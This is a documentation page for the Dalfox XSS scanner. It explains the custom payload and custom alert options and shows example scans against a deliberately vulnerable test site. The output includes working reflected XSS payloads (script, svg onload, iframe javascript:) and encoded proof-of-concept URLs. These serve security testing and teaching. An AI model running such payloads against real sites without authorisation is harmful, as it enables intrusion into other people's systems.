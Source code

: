 ```yaml
---
title: Custom Payload/Alert
redirect_from: /docs/custom-payload/
nav_order: 1
parent: Features
toc: true
layout: page
---
```


# Custom Payload and Custom Alert

This guide provides detailed instructions on how to use custom payloads and custom alerts with Dalfox. These features allow you to customize the payloads and alerts used during XSS scanning.

## Custom Payload

You can specify a custom payload file using the `--custom-payload` option. This file should contain a list of payloads to be used during the scan.

### Command

```bash
dalfox url --custom-payload payload-list.txt
```

## Custom Alert

You can customize the alert value and type used in the payloads with the `--custom-alert-value` and `--custom-alert-type` options.

### Options

- **`--custom-alert-value`**: The value to use in the alert (e.g., `XSS`, `1`, `document.location`).
- **`--custom-alert-type`**: The type of the alert value (e.g., `str`, `none`).

#### Alert Types

- **none or empty**: Use the alert value directly (e.g., `--custom-alert-value=130`, `--custom-alert-value=location.href`).
- **str**: Wrap the alert value in quotes (e.g., `"PAYLOAD"`, `'PAYLOAD'`).

### Examples

#### Default (No Options)

```bash
dalfox url http://testphp.vulnweb.com/listproducts.php?artist=123
```

Output:

```
[V] Triggered XSS Payload (found DOM Object): cat=</ScriPt><sCripT class=dalfox>alert(1)</sCriPt>
    48 line:  syntax to use near '=</ScriPt><sCripT class=dalfox>alert(1)</sCriPt>' at line 1
[POC][V][GET] http://testphp.vulnweb.com/listproducts.php?artist=123&cat=%3C%2FScriPt%3E%3CsCripT+class%3Ddalfox%3Ealert%281%29%3C%2FsCriPt%3E
```

#### Custom Alert Value

```bash
dalfox url http://testphp.vulnweb.com/listproducts.php?artist=123 --custom-alert-value 1337
```

Output:

```
[V] Triggered XSS Payload (found DOM Object): cat='><sVg/onload=alert(1337) class=dalfox>
    48 line:  syntax to use near ''><sVg/onload=alert(1337) class=dalfox>' at line 1
[POC][V][GET] http://testphp.vulnweb.com/listproducts.php?artist=123&cat=%27%3E%3CsVg%2Fonload%3Dalert%281337%29+class%3Ddalfox%3E
```

#### Custom Alert Value with Type `str`

```bash
dalfox url http://testphp.vulnweb.com/listproducts.php?artist=123 --custom-alert-value 1337 --custom-alert-type str
```

Output:

```
[V] Triggered XSS Payload (found DOM Object): cat=<svG/onload=confirm("1337") class=dalfox>
    48 line:  syntax to use near '=<svG/onload=confirm("1337") class=dalfox>' at line 1
[POC][V][GET] http://testphp.vulnweb.com/listproducts.php?artist=123&cat=%3CsvG%2Fonload%3Dconfirm%28%221337%22%29+class%3Ddalfox%3E
```

#### Custom Alert Value with Multiple Types

```bash
dalfox url http://testphp.vulnweb.com/listproducts.php?artist=123 --custom-alert-value 1337 --custom-alert-type str,int
```

Output:

```
[V] Triggered XSS Payload (found DOM Object): cat="><iFrAme/src=jaVascRipt:alert('1337') class=dalfox></iFramE>
    48 line:  syntax to use near '"><iFrAme/src=jaVascRipt:alert('1337') class=dalfox></iFramE
[POC][V][GET] http://testphp.vulnweb.com/listproducts.php?artist=123&cat=%22%3E%3CiFrAme%2Fsrc%3DjaVascRipt%3Aalert%28%271337%27%29+class%3Ddalfox%3E%3C%2FiFramE%3E
```
